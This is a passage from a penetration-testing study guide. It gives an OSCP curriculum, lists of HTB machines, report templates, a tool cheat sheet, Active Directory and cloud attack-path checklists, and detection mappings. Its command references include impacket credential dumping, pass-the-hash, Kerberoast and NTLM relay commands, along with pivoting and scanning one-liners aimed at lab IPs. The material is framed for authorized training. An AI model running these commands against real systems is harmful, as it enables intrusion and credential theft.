| 6 | Web hacking intro | Part 6; Burp + DVWA | Burp workflow doc |
| 7 | Web depth | OWASP CYBERSEC Part 6; ffuf/gobuster | 3 web writeups |
| 8 | Exploitation basics | Part 7; Metasploit lab modules | searchsploit workflow |
| 9 | Windows enum | Part 2 Windows; WinPEAS on lab VM | Windows enum checklist |
| 10 | AD introduction | Part 8; BloodHound on GOAD | Attack path diagram |
| 11 | Credentials | Part 9; hashcat on owned hashes | Cracking lab report |
| 12 | Post-exploit | Part 10; pivot lab with chisel | Pivot diagram |
| 13 | Wireless/physical awareness | Part 11 read-through | Scope checklist |
| 14 | Cloud hacking | Part 12; Pacu on own AWS account | IAM misconfig fix |
| 15 | C2/OPSEC | Part 13; detection mapping | ATT&CK technique map |
| 16 | Lab workflow | Part 14; HTB routine | 10 more HTB boxes |
| 17 | OSCP buffer overflow | CyberSecKopta / TJ Null BOF prep | BOF template |
| 18 | OSCP privesc speed | LinPEAS/WinPEAS timed drills | 15-min privesc checklist |
| 19 | OSCP reporting | Part 15 template; timed reports | Sample client report |
| 20 | OSCP exam sim | 48hr mock + 30 HTB list review | Mock exam debrief |
| 21 | OSCP exam attempt | Schedule exam; rest day before | Pass or retake plan |
| 22 | Bug bounty start | HackerOne profile; 5 in-scope programs | First submission draft |
| 23 | Portfolio | GitHub polish; blog writeups | Public portfolio page |
| 24 | Hero consolidation | Retest skills; mentor juniors | 24-month retrospective |

## OSCP Preparation Checklist

```text
[ ] 30+ HTB/VulnHub machines documented
[ ] Buffer overflow template completed 10+ times
[ ] Active Directory lab (GOAD) completed
[ ] Report writing under 24h for full lab
[ ] Note-taking system refined
[ ] Exam scheduled with rest plan
```

## 30 HTB Machines (Curriculum List)

| Machine | Difficulty | Skills | Target Month |
| --- | --- | --- | --- |
| Lame | Easy | Legacy SMB; methodology intro | 4 |
| Legacy | Easy | Windows XP era services | 4 |
| Devel | Easy | Windows upload + privesc | 4 |
| Blue | Easy | EternalBlue awareness | 5 |
| Meow | Easy | Telnet basics | 4 |
| Dancing | Easy | Windows SMB basics | 5 |
| Redeemer | Easy | Redis misconfig | 5 |
| Nibbles | Easy | Web CMS foothold | 5 |
| Beep | Easy | VoIP/Asterisk enum | 5 |
| Optimum | Easy | Old Windows patch gap | 5 |
| Bastard | Medium | Windows CMS chain | 7 |
| Jerry | Easy | Tomcat manager | 6 |
| Shocker | Easy | Shellshock | 6 |
| Sense | Medium | PfSense web UI | 8 |
| Bounty | Medium | Windows file upload | 8 |
| Jeeves | Medium | Windows creds + Jenkins | 9 |
| Networked | Easy | PHP upload bypass | 6 |
| OpenAdmin | Medium | CMS to privesc | 9 |
| Arctic | Medium | ColdFusion RCE | 9 |
| Cronos | Medium | DNS + web chain | 10 |
| Poison | Medium | Log poisoning / LFI | 10 |
| Mirai | Easy | IoT/router basics | 6 |
| Popcorn | Medium | Torrent app vuln | 10 |
| Bank | Medium | AV bypass + binary | 11 |
| Access | Easy | Windows + MSSQL | 7 |
| Active | Medium | Classic AD Kerberos | 12 |
| Forest | Medium | AD trust abuse | 13 |
| Sauna | Medium | AD AS-REP roast | 12 |
| Monteverde | Medium | Azure AD hybrid hints | 13 |
| Cascade | Hard | Full AD compromise | 16 |

## Bug Bounty Platforms

| Platform | Notes | URL |
| --- | --- | --- |
| HackerOne | Largest platform; read scope carefully | https://hackerone.com |
| Bugcrowd | Enterprise programs + VDPs | https://bugcrowd.com |
| Intigriti | Strong EU presence | https://intigriti.com |
| YesWeHack | European programs | https://yeswehack.com |
| Synack | Invite-only red team model | https://synack.com |
| Open Bug Bounty | Responsible disclosure (often no bounty) | https://openbugbounty.org |

## Full Penetration Test Report Outline

```markdown
# Penetration Test Report — [Client]

## 1. Document Control
Version, authors, classification

## 2. Executive Summary
Business risk, top findings, strategic recommendations

## 3. Scope & Methodology
In-scope assets, out-of-scope, tools, PTES/OWASP refs

## 4. Findings Summary Table
| ID | Title | Severity | Status |

## 5. Detailed Findings
[Repeat per finding — see template below]

## 6. Appendices
Scan output (sanitized), tool versions, glossary
```

## Reporting Template (Technical Finding)

```markdown
## Finding: [Title]
**Severity:** Critical / High / Medium / Low
**CVSS:** X.X (vector string)
**Affected:** host:port or URL

### Description
Plain-language impact for engineers.

### Steps to Reproduce
1. ...
2. ...

### Evidence
[Screenshot refs, request/response snippets — redact secrets]

### Remediation
Specific fix with config example.

### References
CVE, CWE, OWASP link
```

> **Never Forget:** OSCP is a milestone, not the ceiling — combine cert with writeups and responsible disclosure record.

---

# Part 16: Master Tool Cheat Sheet

Alphabetical quick reference. One line per tool — drill until instant recall.

| Tool | One-Line Purpose |
| --- | --- |
| aircrack-ng | Wi-Fi WPA cracking in authorized wireless tests |
| amass | Subdomain enumeration and attack surface mapping |
| arjun | HTTP parameter discovery |
| bloodhound | AD attack path graph analysis |
| burpsuite | Web app intercepting proxy |
| cewl | Custom wordlist from target site |
| chisel | HTTP tunnel for pivoting |
| commix | Command injection automation (authorized) |
| crackmapexec | SMB/WinRM/LDAP Swiss army knife |
| curl | Manual HTTP testing |
| dig | DNS queries and AXFR attempts (authorized) |
| enum4linux | SMB/RPC enumeration wrapper |
| evil-winrm | WinRM post-exploitation shell |
| exploit-db | Public exploit archive |
| feroxbuster | Recursive web content discovery |
| ffuf | Fast web fuzzer |
| gau | Archived URL gathering |
| gobuster | Dir/DNS/vhost brute force |
| hashcat | GPU hash cracking (owned hashes) |
| httpx | HTTP probing and fingerprinting |
| hydra | Network login brute (authorized) |
| impacket | secretsdump, psexec, GetUserSPNs, etc. |
| john | CPU password cracker |
| katana | Modern web crawler |
| kerbrute | Kerberos user enumeration |
| ligolo-ng | Pivot tunnel without SSH |
| linpeas | Linux privesc enumeration |
| maltego | OSINT graph visualization |
| masscan | High-speed port scanner |
| medusa | Parallel login brute |
| metasploit | Exploitation framework |
| mimikatz | Credential extraction (lab + detection) |
| msfvenom | Lab payload generator |
| naabu | Fast port scanner |
| netcat | TCP/UDP utility |
| nmap | Network discovery and NSE |
| nuclei | Template vulnerability scanner |
| openssl | TLS/cert analysis |
| pacu | AWS exploitation framework (authorized) |
| prowler | Multi-cloud security scanner |
| recon-ng | Modular OSINT framework |
| responder | LLMNR poisoner (lab awareness) |
| rpcclient | RPC enumeration |
| rustscan | Fast scan to nmap handoff |
| scoutsuite | Cloud posture audit |
| searchsploit | Exploit-DB CLI search |
| shodan | Internet device search API |
| smbclient | SMB share client |
| snmpwalk | SNMP enumeration |
| spiderfoot | Automated OSINT platform |
| sqlmap | SQL injection automation (authorized) |
| subfinder | Passive subdomain discovery |
| theharvester | Email/subdomain OSINT |
| tshark | CLI packet analysis |
| winpeas | Windows privesc enumeration |
| wireshark | GUI protocol analyzer |
| wpscan | WordPress scanner |
| xsstrike | XSS detection concept |
| zaproxy | OWASP ZAP scanner |

> **Never Forget:** Tools change; methodology and authorization discipline do not.

# Appendix A: Extended Case Studies & Flag References

Real-world patterns observed in **authorized** assessments and lab environments. Names anonymized.

| Scenario | Finding | Severity | Remediation |
| --- | --- | --- | --- |
| Web: IDOR in Bug Bounty (Authorized) | In-scope API returned sequential user IDs. Reporter demonstrated horizontal privilege escalation with two test accounts. | Medium | Add authz check; use UUIDs |
| Network: SMB Signing Disabled | Internal pentest — relay attack path documented without exploitation beyond proof. | High | Enable SMB signing; EPA for LDAP |
| AD: Kerberoast to DA Path | GOAD lab — SPN on service account with weak password cracked offline; path to Domain Admin documented. | Critical | Strong service account passwords; gMSA |
| Cloud: Public S3 Bucket | ScoutSuite finding — customer PII in world-readable bucket. | Critical | Block public access; encryption |
| Wireless: WPA2 Handshake (Lab AP) | Captured handshake on owned test AP; demonstrated crack time with weak PSK. | Low | WPA3-Enterprise; long PSK policy |

## Extended Nmap Examples

```bash
nmap -sS -sV -O -p- --min-rate 5000 -oA aggressive 10.10.10.5
```

```bash
nmap --script vuln,safe -p 80,443 10.10.10.5
```

```bash
nmap -sU --top-ports 100 -sV 10.10.10.5
```

```bash
nmap -6 -sV target_with_ipv6
```

```bash
nmap -sn 192.168.56.0/24 && nmap -sC -sV -p $(grep open scan.gnmap | cut -d/ -f1 | tr '
' ',') host
```

## Pivoting Command Reference

Cross-reference **NETWORKING-MASTER-GUIDE.md Part 7** (VPN/tunnels) and **CYBERSEC-MASTER-GUIDE.md Part 8** (SSH pivoting).

```bash
# SSH local port forward (authorized pivot)
ssh -L 8080:internal:80 user@jumpbox
# SSH dynamic SOCKS
ssh -D 1080 user@jumpbox
# proxychains.conf -> socks5 127.0.0.1 1080
proxychains nmap -sT -Pn 10.0.0.0/24
# chisel reverse SOCKS
./chisel server -p 8000 --reverse
./chisel client JUMPBOX:8000 R:socks
```

## Web Attack Surface Checklist

| Area | Tests |
| --- | --- |
| Authentication | Default creds, lockout, MFA bypass |
| Session | Fixation, JWT alg none, weak secrets |
| Input | SQLi, XSS, SSTI, command injection |
| Access control | IDOR, path traversal, forced browsing |
| Config | Debug enabled, directory listing, backup files |
| API | Mass assignment, BOLA, rate limits |
| Headers | CSP, HSTS, CORS misconfig |

## AD Attack Path Checklist (Authorized Internal)

| Phase | Actions |
| --- | --- |
| Enum | BloodHound, ldapsearch, enum4linux |
| Credentials | AS-REP roast, Kerberoast, password spray (RoE) |
| Relay | SMB signing off, EPA missing |
| Lateral | Pass-the-Hash, WinRM, RDP |
| Privesc | ACL abuse, GPO, delegation |
| Goal | Document path to DA — do not destroy AD |

## OSCP Exam Day Reminders

| Time Block | Activity |
| --- | --- |
| 0-1 hr | Read all machines; note easy wins |
| 1-8 hr | User shells — document every step |
| 8-16 hr | Privesc and proof files |
| 16-22 hr | Hard boxes and AD set |
| 22-24 hr | Report polish; screenshots indexed |

> **Never Forget:** OSCP allows Metasploit on some boxes only — know manual exploitation.

## Bug Bounty Report Quality Rubric

| Criterion | Strong | Weak |
| --- | --- | --- |
| Repro steps | Copy-paste exact HTTP requests | Vague description |
| Impact | Data accessed, privilege gained | Maybe XSS |
| Scope | In-scope asset confirmed | Untested subdomain |
| Remediation | Specific code/config fix | Fix your app |

## Portfolio Project Ideas

| Project | Build | Deliverable |
| --- | --- | --- |
| Custom recon pipeline | amass + httpx + nuclei in Python | GitHub README with ethics statement |
| HTB writeup collection | 30 machines with methodology | Blog or Notion public page |
| Detection mapping | Map your TTPs to Sigma rules | Purple team narrative for interviews |
| Cloud lab misconfig | Terraform vulnerable stack + fix | Before/after ScoutSuite reports |

## TryHackMe Learning Path (Complement to HTB)

| Path | Focus | When |
| --- | --- | --- |
| Jr Penetration Tester | Structured intro path | Months 1-4 |
| OWASP Top 10 | Web vulns hands-on | Months 5-6 |
| Advent of Cyber | Seasonal challenges | December sprint |
| Attackative AD | BloodHound basics | Months 10-12 |
| Offensive Pentesting | Capstone path | Month 14 |

## Metasploit Module Workflow (Lab)

| Step | Command | Note |
| --- | --- | --- |
| 1 | search type:exploit platform:linux samba | Find module |
| 2 | use exploit/... ; show options | Review required vars |
| 3 | set RHOSTS LHOST ; set payload | Lab IPs only |
| 4 | check ; run | Verify before exploit |
| 5 | sessions -l ; migrate | Post-exploit in lab |

## Impacket Quick Reference (Authorized AD Lab)

```bash
impacket-smbclient corp/user:pass@10.10.10.5
```

```bash
impacket-secretsdump corp/user:pass@10.10.10.5
```

```bash
impacket-psexec corp/user:pass@10.10.10.5
```

```bash
impacket-wmiexec -hashes :NTLM admin@10.10.10.5
```

```bash
impacket-GetUserSPNs corp/user:pass -request -outputfile tgs.txt
```

```bash
impacket-GetNPUsers corp/ -usersfile users.txt -no-pass
```

```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
```

## Cloud IAM Privilege Escalation Paths (AWS Lab)

| Path | Impact | Detection |
| --- | --- | --- |
| iam:PassRole + lambda:CreateFunction | Create Lambda with admin role | Pacu / manual enum |
| sts:AssumeRole misconfig | Assume overprivileged role | Enumerate trust policies |
| Public S3 + sensitive data | Data exposure | ScoutSuite / manual |
| Metadata SSRF on EC2 | Temporary creds from IMDS | Own cloud lab only |
| Overprivileged access keys | Long-lived admin keys | Prowler IAM checks |

## Detection Mapping: Attacker vs Defender

For each technique you practice offensively, read the matching **CYBERSEC-MASTER-GUIDE.md Part 9** detection section.

| Attack | Log Source | Blue Team Action |
| --- | --- | --- |
| nmap scan | IDS alert, firewall logs | Threshold alerts on scan |
| Kerberoast | Event 4769 unusual encryption | Monitor SPN requests |
| Pass-the-Hash | Event 4624 logon type 3 NTLM | Sentinel/Elastic correlation |
| SQLi success | WAF alert, DB error logs | Parameterized queries |
| C2 beacon | DNS/HTTPS periodic traffic | JA3, beaconing analytics |

## Executive Report Template Snippet

```markdown
## Executive Summary

During the authorized assessment of [ORG] from [DATE] to [DATE], we identified [N] findings:
- [X] Critical
- [Y] High

**Top risk:** [One sentence business impact]

**Recommended priority actions:**
1. [Action with owner]
2. [Action with owner]
3. [Action with owner]

We confirm testing remained within agreed scope ([SCOPE REF]).
```

## VulnHub / Proving Grounds Alternatives

| Platform | Type | Examples |
| --- | --- | --- |
| VulnHub | Downloadable VMs | Metasploitable, Kioptrix series |
| Proving Grounds | Offensive Security practice | OSCP-aligned boxes |
| GOAD | Active Directory lab | Multiple domains, GPO abuse |
| DVWA / WebGoat | Web vulns local | Docker on host-only network |
| Juice Shop | Modern web OWASP | Node.js intentional flaws |

## Additional Tool Flag Reference (Drill)

| Tool | Flag / Pattern | Context |
| --- | --- | --- |
| gobuster | dir | Authorized lab / engagement |
| gobuster | dns | Authorized lab / engagement |
| gobuster | vhost | Authorized lab / engagement |
| gobuster | -w wordlist | Authorized lab / engagement |
| gobuster | -x php,txt,bak | Authorized lab / engagement |
| sqlmap | --batch | Authorized lab / engagement |
| sqlmap | --level=1 | Authorized lab / engagement |
| sqlmap | --risk=1 | Authorized lab / engagement |
| sqlmap | --random-agent | Authorized lab / engagement |
| sqlmap | --tamper=space2comment | Authorized lab / engagement |
| hydra | -L users.txt | Authorized lab / engagement |
| hydra | -P pass.txt | Authorized lab / engagement |
| hydra | -t 4 | Authorized lab / engagement |
| hydra | -f | Authorized lab / engagement |
| hydra | -V | Authorized lab / engagement |
| john | --wordlist= | Authorized lab / engagement |
| john | --format=Raw-MD5 | Authorized lab / engagement |
| john | --show | Authorized lab / engagement |
| masscan | -p0-65535 | Authorized lab / engagement |
| masscan | --rate 1000 | Authorized lab / engagement |
| masscan | -e eth0 | Authorized lab / engagement |
| rustscan | -a target | Authorized lab / engagement |
| rustscan | -b 5000 | Authorized lab / engagement |
| rustscan | -- -sV -sC | Authorized lab / engagement |
| bloodhound | -c All | Authorized lab / engagement |
| bloodhound | SharpHound ingest from domain-joined lab VM | Authorized lab / engagement |
| impacket-wmiexec | -hashes :NTLM | Authorized lab / engagement |
| impacket-wmiexec | domain/user@host | Authorized lab / engagement |

## Wireshark Filters for Pentest (Cross-Ref)

Deep dive: **CYBERSEC-MASTER-GUIDE.md Part 3** Wireshark guide and **NETWORKING-MASTER-GUIDE.md Part 6** tcpdump/tshark.

| Display Filter | Use Case |
| --- | --- |
| http.request.method == POST | Form submissions and logins |
| dns.qry.name contains suspicious | DNS exfil or C2 lookup |
| tcp.flags.syn == 1 && tcp.flags.ack == 0 | Port scan SYN packets |
| smb2 | SMB traffic on Windows targets |
| kerberos | AD authentication in internal lab |
| tls.handshake.type == 1 | ClientHello for SNI subdomains |

## Part-by-Part Cross-Reference Index

| Unleash Part | Companion Section | Focus |
| --- | --- | --- |
| Part 0 Ethics | CYBERSEC Part 1 legal | Never Forget foundations |
| Part 2 OS | CYBERSEC Part 2 Linux | NETWORKING Part 6 CLI tools |
| Part 3 Python | CYBERSEC Part 7 scripting | Build portfolio tools |
| Part 4 Recon | CYBERSEC Part 8 recon | NETWORKING Part 5 DNS |
| Part 5 Scanning | NETWORKING Part 6 nmap | CYBERSEC Part 8 scanning |
| Part 6 Web | CYBERSEC Part 6 OWASP | Burp + ZAP workflow |
| Part 8 AD | CYBERSEC Part 14 AD | BloodHound + Impacket |
| Part 12 Cloud | CYBERSEC Part 10 cloud | NETWORKING Part 8 AWS |
| Part 13 C2/OPSEC | CYBERSEC Part 9 detection | Purple team mindset |

## Lab Docker Compose Snippet (Host-Only Network)

```yaml
# docker-compose.yml — isolated lab only
version: "3"
services:
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "8080:80"
  juice-shop:
    image: bkimminich/juice-shop
    ports:
      - "3000:3000"
# Bind to lab VM IP; never expose to WAN without intent
```

> **Never Forget:** Snapshot lab VMs before each exercise — revert beats rebuilding.

---

